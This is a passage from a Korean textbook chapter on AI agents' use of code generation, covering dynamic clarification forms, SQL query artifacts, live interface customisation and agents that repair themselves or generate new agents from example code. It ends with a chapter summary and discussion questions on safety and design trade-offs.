사용자 요구 사항이 모호하거나 불완전하면 Agent는 질문으로 필요한 정보를 모아 명확히 해야 한다. OpenAI Deep Research 같은 제품은 일반적으로 텍스트 문답으로 명확히 하지만 한계가 뚜렷하다. 효율 면에서는 질문마다 대화 한 차례가 필요하므로 확인할 항목이 10개면 열 차례를 주고받아야 한다. 표현력 면에서는 여행지 선택이 교통수단 선택지를 제한하는 것처럼 어떤 질문이 다른 질문에 의존할 수 있는데, 일반 텍스트로 이런 연쇄 관계를 전달하기 어렵다.

Agent는 코드 생성으로 구조화된 대화형 인터페이스를 만들어 텍스트 문답을 대체할 수 있다. 그림 5-8은 Agent가 확인 질문을 한 번에 작성할 수 있는 구조화된 인터페이스로 바꾸는 동적 양식 생성 과정을 보여 준다. Agent는 개방형 정보를 받는 텍스트 상자, 미리 정의된 선택지의 dropdown menu, 여러 항목을 고르는 checkbox, 시각 입력을 단순화하는 date picker 등 다양한 입력 컨트롤이 있는 HTML 양식을 생성한다. 더 나아가 Agent는 JavaScript로 동적 로직을 구현한 연쇄 양식을 만들 수 있다. 선택에 따라 뒤의 질문을 자동으로 표시하거나 숨기고 가능한 선택지를 동적으로 갱신한다. 사용자는 양식 전체를 한 번에 작성해 여러 차례 대화를 없애고, 필요한 모든 정보와 질문 사이의 논리 관계를 분명하게 볼 수 있다.



> **실험 5-9 ★★: 동적 양식을 이용한 의도 명확화 시스템**
>
> **실험 목표**: HTML 양식을 동적으로 생성해 사용자 의도를 명확히 하는 Agent의 역량을 검증한다.
>
> **기술 방안**: Agent가 사용자 요청을 분석하고 명확히 해야 할 항목을 찾아 연쇄 로직이 있는 양식 코드를 생성한다. 프런트엔드가 렌더링하고 사용자가 한 번 제출하면 Agent가 JSON 데이터를 파싱해 작업을 계속한다.
>
> **인수 기준**: 사용자가 ‘베이징행 항공권을 예약하고 싶어요’라고 입력하면 Agent가 출발 도시(텍스트 입력), 출발일(date picker), 여행 유형(radio: 편도/왕복), 귀국일(‘왕복’을 선택했을 때만 표시)이 있는 양식을 생성한다. 사용자는 한 번의 제출로 모든 정보를 입력한다.
>

**SQL 질의 생성.**

데이터베이스 질의는 코드 생성이 상호작용 경험을 크게 향상할 수 있는 영역이다. 전통적인 데이터베이스 접근은 GUI 도구나 직접 작성한 SQL에 의존한다. 전자는 조작이 번거롭고 후자는 사용자에게 전문 지식을 요구한다. Agent는 자연어를 SQL로 바꿀 수 있지만 여기에는 핵심 설계 선택이 있다. Agent가 SQL을 실행한 뒤 결과를 자연어로 설명해야 할까, 아니면 SQL 코드를 산출물로 생성해 프런트엔드가 직접 실행하게 해야 할까?

첫 번째 방식은 더 ‘지능적’으로 보이지만 매우 비효율적이다. 큰 테이블에 질의하면 수천 행을 반환할 수 있다. LLM이 이를 모두 읽고 글로 설명하면 token과 시간이 낭비되며, 더 나쁜 점은 LLM이 데이터를 ‘옮겨 적을’ 때 오류를 내기로 악명 높다는 사실이다. 더 나은 방식은 **산출물 패턴**이다. 그림 5-9는 SQL 질의 Agent의 작업 흐름을 보여 준다. Agent는 데이터를 직접 읽지 않고 SQL 질의 코드를 만들어 독립된 ‘산출물’로 시스템에 전달한다. 시스템은 이 SQL로 데이터베이스를 직접 조회하고 가져온 데이터를 사용자가 보는 표로 렌더링한다. 전체 과정에서 데이터는 LLM이라는 ‘중개자’를 완전히 우회해 데이터베이스에서 사용자 인터페이스로 직접 흐른다. LLM은 질의문 작성만 맡고 수천 행의 데이터를 읽어 사용자에게 다시 말하지 않는다. 빠르고 정확하다.



더 나아가 Agent는 SQL 질의 + 막대 차트 같은 시각화 코드라는 두 산출물을 파이프라인으로 생성할 수 있다. 프런트엔드는 SQL 결과를 시각화 코드에 직접 전달한다. LLM은 코드 생성만 맡고 데이터 전달에는 참여하지 않는다. 이것이 인터페이스로서 코드 생성의 본질이다.

> **실험 5-10 ★★: 자연어 상호작용 ERP Agent**
>
> ERP(Enterprise Resource Planning, 전사적 자원 관리) 소프트웨어는 기업의 핵심 시스템이다. 일반적으로 GUI 인터페이스를 사용해 복잡한 작업에는 여러 차례 마우스를 클릭해야 한다. AI Agent는 사용자의 자연어 질의를 SQL 문으로 바꿔 질의를 자동화할 수 있다.
>
> 요구 사항: 두 테이블이 있는 PostgreSQL 데이터베이스를 구축한다. (1) 직원 테이블은 직원 ID, 이름, 부서, 직급, 입사일, 퇴사일(NULL이면 재직 중)을 포함한다. (2) 급여 테이블은 직원 ID, 지급일, 급여(매월 한 레코드)를 포함한다. Agent는 다음 질문에 자동으로 답한다.
>
> 1. 직원 한 명이 평균적으로 얼마나 오래 재직하는가?
> 2. 부서별 재직 직원은 몇 명인가?
> 3. 직원의 평균 직급이 가장 높은 부서는 어디인가?
> 4. 올해와 지난해 부서별 신규 입사자는 각각 몇 명인가?
> 5. 재작년 3월부터 지난해 5월까지 A 부서의 평균 급여는 얼마인가?
> 6. 지난해 A 부서와 B 부서 중 평균 급여가 더 높은 곳은 어디인가?
> 7. 올해 직급별 직원의 평균 급여는 얼마인가?
> 8. 재직 기간이 1년 미만, 1~2년, 2~3년인 직원의 최근 한 달 평균 급여는 얼마인가?
> 9. 지난해부터 올해까지 급여가 가장 많이 오른 직원 10명은 누구인가?
> 10. 임금 체불 사례(특정 달에 재직 중이지만 급여 레코드가 없음)가 있는가?
>

**소프트웨어의 동적 생성.**

코드 생성의 궁극적인 응용은 Agent가 소프트웨어 전체를 처음부터 완전히 동적으로 만들게 하는 것이다. Anthropic의 ‘Imagine with Claude’는 최전선을 보여 준다. 사용자가 요청하면 Claude가 프런트엔드 인터페이스와 상호작용 로직을 실시간으로 생성한다. 사용자가 생성된 소프트웨어와 상호작용하면 Claude는 코드를 수정해 결과를 보여 주는 새 인터페이스를 만든다. 사용자는 애플리케이션이 무에서 생겨나 계속 진화하는 모습을 지켜본다.

그러나 완전히 동적인 생성은 비용이 많이 들고 느려 프로덕션보다 가능성을 시연하는 데 더 적합하다. 더 실용적인 방향은 **기존 프레임워크 위의 맞춤형 수정**이다. 이 ‘반맞춤형’ 모델은 기본 소프트웨어의 안정성을 유지하면서 특정 차원을 사용자가 제어할 수 있게 한다. 사용자가 ‘버튼을 파란색으로 바꿔 줘’, ‘사이드바에 바로 가기 메뉴를 추가해 줘’, ‘더 읽기 쉬운 글꼴로 바꿔 줘’라고 말하면 Agent가 이해하고 프런트엔드 코드를 수정하며, HMR(Hot Module Replacement, 애플리케이션 상태를 보존한 채 전체 페이지를 새로 고치지 않고 일부만 즉시 교체하는 기능)이 즉시 반영한다. 모두에게 같은 제품이 사용자마다 개인화된 경험으로 바뀐다.

> **실험 5-11 ★★: 대화형 인터페이스 맞춤 설정 시스템**
>
> **실험 목표**: 사용자가 자연어 대화로 소프트웨어 인터페이스를 즉시 맞춤 설정하게 하고, hot reload 메커니즘이 지원하는 코드 생성이 개인화된 사용자 경험을 제공하는 데 효과적인지 검증한다.
>
> **기술 방안**: 기본 chatbot 애플리케이션(React 프런트엔드 + FastAPI 백엔드)을 구축한다. 프런트엔드와 백엔드 모두 hot reload(React의 HMR, FastAPI의 reload)를 지원하는 개발 모드로 실행한다. 사용자는 대화 중에 색상·글꼴·레이아웃·구성 요소 위치 같은 UI 맞춤 설정 요구를 제시하고 Agent가 자율적으로 코드를 수정한다. hot reload 메커니즘은 파일 변경을 자동으로 탐지해 프런트엔드를 다시 컴파일하고 새로 고치므로 사용자가 인터페이스 변경을 실시간으로 볼 수 있다. 여러 차례의 반복 맞춤 설정을 지원한다.
>

### 코드를 만드는 코드: Agent 부트스트래핑

앞 절에서는 수학적 추론에서 문서 생성, 인터페이스 맞춤 설정까지 여러 영역의 코드 생성을 따라왔다. 이 역량을 끝까지 밀어붙이면 자연스럽게 한 질문에 이른다. Agent가 코드 생성으로 다른 Agent를 만들 수 있을까?

먼저 8장과의 역할 분담을 분명히 해야 한다. 이 절에서는 Agent가 코드로 **자기와 같은 종류의 Agent를 복구하고 생성하는 일**, 즉 자기 복구, 자기 복제, 필요에 따른 새 Agent 재생산을 다루며 대상은 Agent의 코드와 구조다. 8장의 ‘자기 진화’는 이와 다르다. **모델 가중치를 수정하지 않고** Agent가 역량(경험 축적, 프롬프트 최적화, 도구 라이브러리 구축)을 계속 성장시키는 능력을 뜻하며 대상은 Agent의 지식과 전략이다. 둘 다 ‘진화’라고 부를 수 있지만 8장의 제목과 혼동하지 않도록 이 절에서는 ‘Agent를 만드는 코드’ 역량을 **부트스트래핑**이라고 부른다.



**Agent 자기 복구: OpenClaw Doctor.**

Agent 부트스트래핑의 중요한 전제 조건은 자기 복구 역량이다. OpenClaw의 `doctor` 명령은 이 역량을 구현해 세 가지 문제를 자동으로 탐지한다.

- **설정 이상**: 만료된 OAuth token, 예전 설정 형식, 포트 충돌
- **상태 문제**: 낡은 세션 lock 파일, 누락된 plugin 의존성
- **서비스 상태 문제**: Gateway가 실행되지 않음, 샌드박스 이미지 누락

그런 다음 계층화된 복구 전략으로 자동 해결한다. 설정 정규화, lock 파일 정리 같은 안전한 수정은 자동으로 실행하고, 서비스 재시작이나 설정 강제 덮어쓰기 같은 위험 작업은 사용자 확인을 요구한다.

과장해서는 안 된다. 만료된 token, 낡은 lock 파일, 포트 충돌처럼 자주 발생하는 문제에는 명확한 탐지 규칙과 고정된 복구 작업이 있다. `doctor`는 **결정적인 검사 묶음으로 이런 문제부터 처리하며**, 본질적으로 전통적인 운영 스크립트와 다르지 않다. Agent 역량이 진정으로 드러나는 것은 두 번째 계층이다. 결정적 규칙이 다루지 못하는 어려운 문제는 LLM에 넘겨 오류 로그를 분석하고, 설정 파일의 의미를 이해하고, 인과관계를 추론하고, 문제에 맞는 복구 계획을 만들게 한다. 결정적 검사는 흔한 문제를 신뢰성 있게 고치고 LLM은 롱테일 문제를 받쳐 준다. 두 계층을 결합하면 `doctor --fix`가 흔한 Gateway 문제 중 상당수를 자동으로 해결할 수 있다. ‘Agent가 Agent를 복구하는’ 이 패턴이 중요한 이유는 Agent의 작업 대상이 외부 시스템에서 자기 런타임 환경으로 바뀌는 순간 자기 복구가 시스템 어댑터를 넘어 Agent 부트스트래핑의 인프라로 발전하기 때문이다.

**Agent가 Agent를 작성하게 하는 핵심 기법.**

고품질 Agent를 만드는 일은 일반 애플리케이션 코드를 생성하는 것보다 훨씬 어렵다. Agent 아키텍처 패턴, 모범 사례, 흔한 함정을 깊이 이해해야 하기 때문이다. 이런 도메인 전문 지식이 없으면 가장 강력한 코드 생성 모델도 아키텍처에 심각한 결함이 있는 Agent를 만든다. 흔한 문제는 다음과 같다.

1. **허술한 컨텍스트 관리**: 2장의 표준 컨텍스트 형식을 사용하지 않고 궤적을 일반 텍스트로 컨텍스트에 넣으며, 구조화된 메시지의 KV Cache 최적화를 무시하고, 도구 호출 루프에 경계 bug가 있다.
2. **비표준 도구 설계**: 설명이 모호하고 사용 경계 지침과 부정 목록이 없으며 매개변수에 구체적인 예가 없다.
3. **낡은 기술 선택**: 학습 데이터에서 가장 흔하지만 낡은 모델과 API를 사용하는 경향이 있다. SOTA 지식 베이스를 유지하거나 Agent에 검색 역량을 제공해 해결한다.
4. **외부 생태계와의 단절**: 폐기된 API, 유지 보수되지 않는 라이브러리, 결함 있는 패턴을 사용한다.

이 문제를 해결하는 가장 효과적인 방법은 프롬프트에 모든 규칙을 빠짐없이 나열하는 것이 아니라 **고품질 Agent 구현을 참조 예시로 제공**해 코드 생성 Agent가 처음부터 만들지 않고 수정하도록 유도하는 것이다.

예시 기반 생성의 장점은 명확하다. 예시 코드 자체가 모범 사례를 담고 있다. 처음부터 시작하는 Agent보다 예시를 수정하는 Agent가 올바르게 만들 가능성이 높고, 좋은 아키텍처 선택은 그대로 살아남으므로 프롬프트에 모든 규칙을 일일이 쓸 필요가 없다.

새 Agent 개발 작업을 받으면 Agent는 먼저 자신의 코드나 검증된 다른 고품질 구현을 복사한 뒤 필요한 부분만 수정해야 한다. 새 역할에 맞게 시스템 프롬프트를 조정하고, 새 기능에 맞는 도구로 교체하거나 추가하며, 아키텍처 뼈대는 보존한 채 비즈니스 로직을 수정한다. 이러한 ‘적응형 수정을 동반한 자기 복제’ 패턴은 새 Agent가 핵심 기술적 장점을 물려받으면서 구체적인 차원에서는 차별화할 수 있게 한다. 생물학에서 돌연변이를 동반한 유전자 복제와 비슷하다.

> **실험 5-12 ★★★: Agent를 만드는 Agent 개발하기**
>
> **실험 목표**: 메타프로그래밍(Metaprogramming, 다른 프로그램을 생성하거나 수정하는 프로그램을 작성하는 역량)을 갖춘 Coding Agent를 구축한다. 사용자 요구 사항에 따라 새 Agent 시스템을 자동으로 생성하면서 모범 사례를 준수하게 한다.
>
> **기술 방안**: Coding Agent에 고품질 Agent 구현을 참조 예시로 제공한다(`ch5/coding-agent` 프로젝트 자체를 사용해도 된다). 새 Agent를 만들라는 작업을 받으면 먼저 이 예시 코드를 복사한 뒤 사용자의 구체적인 요구에 맞게 수정한다.
>
> **인수 기준**: 생성한 Agent가 성공적으로 실행되어 기본 작업을 완수해야 한다. 표준 메시지 형식과 도구 호출 프로토콜을 사용하는지, 현재 권장하는 모델과 API를 사용하는지 검증한다. 여러 차례의 대화에서 컨텍스트와 상태를 올바르게 관리하는지 테스트한다. 처음부터 생성하는 모드와 예시 기반 수정 모드를 비교해 후자가 품질과 효율에서 우수한지 검증한다.
>
>
> 
>
>

Agent 부트스트래핑은 코드 생성의 궁극적인 응용이다. Agent를 만들 수 있는 Agent는 지능의 자기 복제를 이룬다. 이제 Coding Agent의 기초에서 시작해 코드 생성의 여러 용도를 지나 부트스트래핑에 이르는 이 장의 전체 흐름을 따라왔다.

## 이 장의 요약

이 장은 한 가지 주장을 일관되게 펼쳤다. 코드는 단순히 프로그램을 작성하는 도구가 아니라 Agent가 형식적으로 생각하고 정밀하게 표현하는 언어다.

Harness 엔지니어링 절의 핵심 결론은 Coding Agent가 성숙한 이유가 코드 생성 모델이 유난히 강력해서가 아니라 수십 년간 축적된 소프트웨어 엔지니어링 인프라—테스트 스위트, 타입 시스템, 버전 관리—가 자연스럽게 강력한 Harness를 이루기 때문이라는 것이다. 이 결론은 다른 Agent 상황에도 적용할 가치가 있다. 장애와 오류 복구 절에서는 같은 주제의 이면을 보여 주었다. Agent의 신뢰성은 모델이 실수하는지 여부가 아니라 모든 장애 유형에 그에 맞는 탐지·복구·종료 경로가 있는지로 결정된다.

두 번째 부분에서는 본문의 여섯 차원에 따라 프로그래밍을 넘어선 코드 생성의 폭넓은 가치를 보여 주었다.

- **생각 도구**: 기호 계산과 제약 풀이로 확률적 생각의 약점을 보완한다.
- **비즈니스 규칙 제약**: 비즈니스 규칙을 모호하지 않게 표현해 되돌릴 수 없는 작업에 결정적인 안전선을 제공한다. 이 안전 보장의 가치는 구현 비용을 훨씬 능가한다.
- **멀티미디어 생성**: 제안자-검토자 메커니즘으로 PPT와 동영상 같은 멀티모달 콘텐츠를 만든다.
- **시스템 어댑터**: 형식의 진화를 자동으로 따라가 로그 파싱과 문제 진단의 전 과정 자동화를 이룬다.
- **생성형 UI**: 양식, 시각화, 완전한 맞춤형 애플리케이션까지 동적으로 생성해 일반 텍스트의 한계를 벗어난다.
- **Agent 부트스트래핑**: 코드로 같은 종류의 Agent를 복구하고 만들어 Agent를 만드는 Agent를 구현한다.

Agent에게 코드가 주는 가치는 이렇다. 코드는 작업을 완수하는 수단인 동시에 지식을 축적하고, 도구를 만들며, 자신을 개선하는 메커니즘이다. 진정한 ‘메타 역량’인 것이다.

이제 세 기둥 가운데 컨텍스트와 도구라는 두 기둥을 살펴보았으며, 코드 생성은 그중 가장 범용적인 도구다. 그러나 핵심 질문 하나가 남아 있다. 이러한 설계 결정이 효과가 있는지 어떻게 과학적으로 측정할 수 있을까? 다음 장부터는 세 번째 기둥인 모델로 넘어가 먼저 평가를 다룬다. 다음 장에서는 평가 환경 구축과 데이터셋 설계부터 보상 모델, 평가 기반 모델 선택까지 완전한 평가 방법론을 세워 지금까지 설명한 모든 기법을 정량적으로 검증할 수단을 제공한다.

## 생각할 문제

1. ★★ 코드 생성은 Agent의 ‘메타 역량’이라고 불린다. 그러나 코드 실행은 보안 위험을 가져온다. Agent가 생성한 코드에 취약점, 무한 루프, 자원 고갈 문제가 있을 수 있다. 샌드박스 격리는 일부 문제를 해결하지만 네트워크나 파일 시스템에 접근할 수 없는 등 코드의 역량도 제한한다. 안전성과 역량 사이의 최적 균형을 어떻게 찾을 수 있을까?
2. ★★★ Agent를 만드는 Agent라는 Agent 부트스트래핑은 ‘지능의 자기 복제’를 이룬다. 그러나 부트스트래핑을 반복할 때마다 새로운 편향이나 오류가 들어갈 수 있다. 이 오류가 세대를 거쳐 누적될까? 부트스트랩한 Agent의 성능 저하를 어떻게 막을 수 있을까?
3. ★★ 코드 생성 Agent는 로그를 파싱할 때 형식의 진화를 자동으로 따라갈 수 있다. 그러나 형식 변경이 의도된 수정이 아니라 bug라면 Agent의 적응성이 오히려 문제를 감춘다. Agent는 ‘적응해야 할 변경’과 ‘보고해야 할 이상’을 어떻게 구분해야 할까?
4. ★★ 이 장은 PPT 생성, 동영상 편집, 로그 시각화에 제안자-검토자 메커니즘을 반복해 사용했다. 검토자의 미적 선호가 목표 사용자의 선호와 다르면 어떻게 될까? 예를 들어 검토자는 정보 밀도가 적절하다고 판단하지만 사용자는 너무 빽빽하다고 느낀다면 피드백 루프가 잘못된 국소 최적점으로 수렴할 수 있다. 사용자의 선호 피드백을 검토자 루프에 어떻게 넣을 수 있을까?
5. ★★ 이 장은 Coding Agent가 실행·디버깅에서 얻은 경험을 코드베이스에 다시 축적하는 여러 방법을 보여 주었다. 지식 베이스 파일에 쓰고, 아키텍처 문서를 갱신하고, 프로젝트 지시 파일을 유지하고, 작업 순서를 코드로 굳힌다. 이 경험을 다시 시스템 프롬프트의 규칙으로 정제하면 규칙 묶음이 계속 커질 것이다. 축적한 규칙에서 중복되거나 낡은 항목을 찾아 정리하는 ‘garbage collection’을 어떻게 수행할 수 있을까? Agent가 자신의 경험을 축적하는 이 메커니즘은 8장에서 다룰 시스템 프롬프트 자동 최적화와 어떤 점이 같고 다를까?
6. ★ ‘원격 근무에 친화적인 팀은 AI Agent에도 친화적인 경우가 많다.’ 여러분의 팀이나 조직은 지식 문서화 측면에서 ‘AI 준비 상태’에 얼마나 가까운가? 가장 큰 장애물은 무엇인가?
7. ★★★ Simon Willison은 Agent의 ‘치명적인 세 가지 요소’(개인 데이터 접근, 신뢰할 수 없는 콘텐츠 노출, 외부 통신 역량)를 제시했고 이 장은 네 번째 요소로 영속 메모리를 덧붙였다. 네 요소를 모두 처리해야 하는 프로덕션 환경에서 어떤 보안 전략을 설계하겠는가?
8. ★★ 산출물 패턴에서는 Agent가 생성한 SQL이나 프런트엔드 코드를 사용자의 브라우저나 데이터베이스에서 직접 실행한다. 그러나 생성한 SQL이 파괴적인 작업을 실행하거나 생성한 HTML에 취약점이 있을 수 있다. 시스템의 안전성을 어떻게 보장할 수 있을까?
9. ★★ 비즈니스 규칙을 도구 내부에서 데이터베이스 참값을 바탕으로 검증하도록 코드화하고, 매개변수 설계로 호출 전에 정책 조건을 확인하게 유도하는 방식은 본질적으로 코드 구조로 Agent 행동을 제약한다. 이러한 ‘규칙으로서의 코드’ 패턴은 자연어 규칙과 비교해 어떤 장점과 한계가 있는가?
10. ★★ 산출물 패턴에서는 Agent가 SQL이나 시각화 코드를 생성하고 프런트엔드가 직접 실행해 LLM이 대량의 데이터를 처리하는 일을 우회한다. 이러한 ‘Agent가 코드를 생성하고 시스템이 실행하는’ 분업 방식은 전통적인 ‘Agent가 직접 답을 제공하는’ 패턴과 비교해 어떤 장단점이 있는가?
